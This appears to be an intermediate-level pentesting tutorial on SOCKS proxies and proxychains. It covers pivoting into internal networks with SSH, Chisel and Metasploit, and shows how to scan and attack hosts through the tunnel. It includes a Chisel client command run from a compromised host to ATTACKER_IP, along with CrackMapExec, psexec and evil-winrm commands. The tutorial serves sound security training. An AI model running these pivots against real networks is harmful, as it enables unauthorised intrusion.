


# 🧦 Proxychains & SOCKS Proxies

> **Level: 🟡 Intermediate**
> Master SOCKS proxies and proxychains to route any tool through your tunnels.

---

## 📖 Table of Contents

1. [What is a SOCKS Proxy?](#-1-what-is-a-socks-proxy)
2. [SOCKS4 vs SOCKS5](#-2-socks4-vs-socks5)
3. [Creating SOCKS Proxies](#-3-creating-socks-proxies)
4. [Proxychains Setup & Configuration](#-4-proxychains-setup--configuration)
5. [Using Proxychains with Tools](#-5-using-proxychains-with-tools)
6. [Proxy Chaining (Multi-Hop)](#-6-proxy-chaining-multi-hop)
7. [FoxyProxy (Browser)](#-7-foxyproxy-browser)
8. [Performance & Limitations](#-8-performance--limitations)
9. [Troubleshooting](#-9-troubleshooting)

---

## 🧠 1. What is a SOCKS Proxy?

### Simple Explanation

A **SOCKS proxy** is a general-purpose proxy that works at the network layer:

> It forwards **any TCP connection** through a proxy server, making it appear that traffic originates from the proxy.

### Why SOCKS in Pentesting?

| Without SOCKS | With SOCKS |
|---------------|------------|
| You can only access one service at a time (port forward) | Route **any tool** through the tunnel |
| Need separate `-L` for each port | One proxy handles all traffic |
| Limited scanning | Full internal network scanning |

### How It Works



---

## 🔄 2. SOCKS4 vs SOCKS5

| Feature | SOCKS4 | SOCKS5 |
|---------|--------|--------|
| **TCP support** | ✅ | ✅ |
| **UDP support** | ❌ | ✅ |
| **Authentication** | ❌ | ✅ (user/pass) |
| **DNS resolution** | Client-side only | ✅ Remote DNS (proxy resolves) |
| **IPv6 support** | ❌ | ✅ |
| **Recommendation** | Avoid unless needed | **Always use SOCKS5** |

> 💡 **Always use SOCKS5** — it supports remote DNS resolution, which prevents DNS leaks that could reveal your real activity.

---

## 🔧 3. Creating SOCKS Proxies

### Method 1: SSH Dynamic Port Forwarding

```bash
ssh -D 9050 -N -f user@pivot
```
SOCKS proxy on: `127.0.0.1:9050`

### Method 2: Chisel Reverse SOCKS

```bash
# Attacker
chisel server --port 8000 --reverse

# Compromised host
chisel client ATTACKER_IP:8000 R:1080:socks
```
SOCKS proxy on: `127.0.0.1:1080`

### Method 3: Meterpreter autoroute + SOCKS

```bash
# In Metasploit
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 10.10.10.0
run

use auxiliary/server/socks_proxy
set SRVPORT 1080
run -j
```
SOCKS proxy on: `127.0.0.1:1080`

### Quick Reference: Which Port?

| Tool | Default SOCKS Port |
|------|--------------------|
| SSH `-D` | Whatever you specify (commonly 9050) |
| Chisel | 1080 |
| Metasploit socks_proxy | 1080 |
| Tor | 9050 |

---

## ⚙️ 4. Proxychains Setup & Configuration

### Install

```bash
# Debian/Ubuntu
sudo apt install proxychains4

# CentOS/RHEL
sudo yum install proxychains-ng
```

### Configuration File Locations

```bash
# System-wide
/etc/proxychains4.conf

# User-specific
~/.proxychains/proxychains.conf
```

### Configuration File Explained

```bash
# /etc/proxychains4.conf

# ------ Proxy Mode ------
# Choose ONE mode:

# strict_chain    → Use ALL proxies in order (fails if any proxy is down)
# dynamic_chain   → Use proxies in order, SKIP dead ones (recommended!)
# random_chain    → Use random proxy from the list
# round_robin     → Distribute connections across proxies

dynamic_chain
# strict_chain
# random_chain

# ------ DNS Settings ------
# Proxy DNS requests through the proxy chain
proxy_dns

# ------ Timeouts ------
tcp_read_time_out 15000
tcp_connect_time_out 8000

# ------ Proxy List ------
[ProxyList]
# type    host          port    [user    pass]
socks5  127.0.0.1     1080
# socks5  127.0.0.1     9050
# socks4  127.0.0.1     1080
# http    127.0.0.1     8080   user    pass
```

### Quick Config for Common Setups

```bash
# For SSH SOCKS proxy
echo "socks5 127.0.0.1 9050" | sudo tee -a /etc/proxychains4.conf

# For Chisel SOCKS proxy
echo "socks5 127.0.0.1 1080" | sudo tee -a /etc/proxychains4.conf
```

### Chain Modes Explained



---

## 🔧 5. Using Proxychains with Tools

### Basic Usage

Prepend `proxychains` (or `proxychains4`) to any command:

```bash
proxychains <command>
```

### Nmap Scanning

```bash
# TCP Connect scan (REQUIRED — SYN scans don't work through SOCKS)
proxychains nmap -sT -Pn -p 22,80,443 10.10.10.5

# Top 100 ports scan
proxychains nmap -sT -Pn --top-ports 100 10.10.10.5

# Service version detection
proxychains nmap -sT -Pn -sV -p 80,445 10.10.10.5

# Full subnet scan (slow but works)
proxychains nmap -sT -Pn --top-ports 20 10.10.10.0/24
```

> ⚠️ **Nmap rules through SOCKS**:
> - MUST use `-sT` (TCP connect scan)
> - MUST use `-Pn` (skip ping — ICMP doesn't work)
> - ❌ No `-sS` (SYN scan)
> - ❌ No `-sU` (UDP scan)
> - ❌ No OS detection (`-O`)

### Web Requests

```bash
# curl
proxychains curl http://10.10.10.5
proxychains curl -k https://10.10.10.5

# wget
proxychains wget http://10.10.10.5/file.txt

# Nikto (web scanner)
proxychains nikto -h http://10.10.10.5
```

### SMB/File Shares

```bash
# smbclient
proxychains smbclient //10.10.10.5/share -U user

# CrackMapExec
proxychains crackmapexec smb 10.10.10.0/24

# enum4linux
proxychains enum4linux 10.10.10.5
```

### SQL/Databases

```bash
# MySQL
proxychains mysql -h 10.10.10.5 -u root -p

# MSSQL (impacket)
proxychains mssqlclient.py user:pass@10.10.10.5

# PostgreSQL
proxychains psql -h 10.10.10.5 -U postgres
```

### RDP/SSH/WinRM

```bash
# SSH
proxychains ssh user@10.10.10.5

# RDP
proxychains xfreerdp /v:10.10.10.5 /u:admin /p:password

# WinRM
proxychains evil-winrm -i 10.10.10.5 -u admin -p password
```

### Metasploit

```bash
# Set proxy in Metasploit
msf6 > setg Proxies socks5:127.0.0.1:1080
msf6 > setg ReverseAllowProxy true

# Or run entire msfconsole through proxychains
proxychains msfconsole
```

### Python Scripts

```bash
proxychains python3 exploit.py
proxychains impacket-psexec user:pass@10.10.10.5
```

---

## 🔗 6. Proxy Chaining (Multi-Hop)

### What Is Proxy Chaining?

Route traffic through **multiple proxies** in sequence. Useful for double pivoting.

### Example: Two SOCKS Proxies

```
Attacker → SOCKS Proxy 1 (SSH to Pivot 1) → SOCKS Proxy 2 (SSH to Pivot 2) → Target
```

### Configuration

```bash
# /etc/proxychains4.conf

strict_chain  # Must use both proxies in order

[ProxyList]
socks5 127.0.0.1 9050    # First hop (SSH -D to Pivot 1)
socks5 127.0.0.1 9051    # Second hop (SSH -D to Pivot 2, through first tunnel)
```

### Setup

```bash
# Tunnel 1: Attacker → Pivot 1
ssh -D 9050 -N -f user@pivot1

# Tunnel 2: Through Pivot 1 → Pivot 2
proxychains ssh -D 9051 -N -f user@pivot2

# Now use proxychains normally — it goes through BOTH proxies
proxychains curl http://deep-internal-target
```

### Flow


---

## 🌐 7. FoxyProxy (Browser)

### What Is FoxyProxy?

A browser extension that lets you route browser traffic through SOCKS proxies.

### Setup for Firefox

1. Install **FoxyProxy Standard** from Firefox Add-ons
2. Click the FoxyProxy icon → Options
3. Add new proxy:
   - **Title**: Internal Pivot
   - **Type**: SOCKS5
   - **Hostname**: 127.0.0.1
   - **Port**: 1080 (or your SOCKS port)
   - ✅ Check "Send DNS through SOCKS5 proxy"
4. Save & Enable the proxy

### Setup for Chrome

1. Install **FoxyProxy** from Chrome Web Store
2. Same configuration as Firefox

### Alternative: Manual Firefox Proxy

1. Settings → Network Settings → Settings...
2. Select "Manual proxy configuration"
3. SOCKS Host: `127.0.0.1`
4. Port: `1080`
5. ✅ SOCKS v5
6. ✅ "Proxy DNS when using SOCKS v5"

> 💡 **Tip**: Use FoxyProxy patterns to only proxy specific internal IP ranges through the SOCKS proxy.

---

## ⚡ 8. Performance & Limitations

### What Works Through SOCKS

| ✅ Works | ❌ Doesn't Work |
|----------|----------------|
| TCP connections | ICMP (ping) |
| HTTP/HTTPS | UDP (most)*  |
| SSH, RDP, VNC | SYN scans (`nmap -sS`) |
| SMB, MySQL, MSSQL | OS detection (`nmap -O`) |
| Web scanning (Nikto, Gobuster) | Traceroute |
| CrackMapExec (TCP) | ARP scanning |
| Impacket tools | Raw socket tools |

> *SOCKS5 technically supports UDP, but most SOCKS implementations and proxychains don't handle it well.

### Performance Tips

```bash
# Reduce nmap scan speed to avoid overwhelming the tunnel
proxychains nmap -sT -Pn --max-retries 1 --min-rate 100 10.10.10.5

# Scan fewer ports at once
proxychains nmap -sT -Pn -p 22,80,443,445 10.10.10.5

# Use --top-ports for broader scans
proxychains nmap -sT -Pn --top-ports 50 10.10.10.0/24
```

### Compare: SOCKS Proxy vs Ligolo-ng TUN

| Feature | SOCKS + Proxychains | Ligolo-ng TUN |
|---------|--------------------|----|
| Setup complexity | Easy | Medium |
| ICMP (ping) | ❌ | ✅ |
| UDP support | ❌ | ✅ |
| SYN scans | ❌ | ✅ |
| Needs proxychains | ✅ | ❌ |
| Tool compatibility | Most TCP tools | ALL tools |
| Speed | Good | Excellent |
| Nmap experience | Limited | Full |

> 💡 If you need ICMP, UDP, or SYN scans → Use **Ligolo-ng** instead.

---

## 🔧 9. Troubleshooting

### Common Issues

| Issue | Cause | Fix |
|-------|-------|-----|
| "Proxy refused connection" | SOCKS proxy not running | Start your SSH/Chisel tunnel first |
| Timeout on every connection | Wrong proxy port in config | Verify port matches your tunnel |
| DNS resolution fails | `proxy_dns` not enabled | Add `proxy_dns` to proxychains.conf |
| nmap shows "filtered" everywhere | Using SYN scan | Use `-sT -Pn` |
| "Connection reset" | Target firewall | Check target port is actually open |
| Very slow scans | Too many ports/hosts | Reduce scope, scan fewer ports |
| proxychains not found | Not installed | `sudo apt install proxychains4` |

### Debugging

```bash
# Run proxychains in verbose mode
proxychains -q off curl http://10.10.10.5

# Check if SOCKS proxy is listening
ss -tlnp | grep 1080
netstat -an | grep 1080

# Test proxy manually with curl
curl --socks5 127.0.0.1:1080 http://10.10.10.5

# Test DNS resolution through proxy
proxychains nslookup internal-server
```

---

## ⏮️ [← Windows Tunneling Tools](./05_windows_tunneling_tools.md) | ⏭️ [sshuttle & VPN Tunneling →](./07_sshuttle_and_vpn_tunneling.md)
